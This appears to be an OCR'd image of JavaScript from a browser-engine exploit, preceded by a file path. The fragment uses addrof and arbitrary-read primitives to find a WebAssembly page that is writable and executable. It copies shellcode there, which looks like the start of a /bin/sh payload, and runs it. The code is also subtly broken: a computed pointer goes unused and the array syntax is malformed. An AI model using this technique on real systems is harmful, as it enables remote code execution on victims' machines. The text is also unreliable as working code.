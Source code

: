 let wasm_addr = addrof(wasm_instance);
let rwx_ptr   = wasm_addr + 0x68n;
let rwx_addr  = arbread(wasm_addr);
var shellcode = new Uint8Array[0x6a,
    0x3b, 0x58, 0x99, 0x48, 0xbb, ...]; 
copy_shellcode(rwx_addr, shellcode);
f();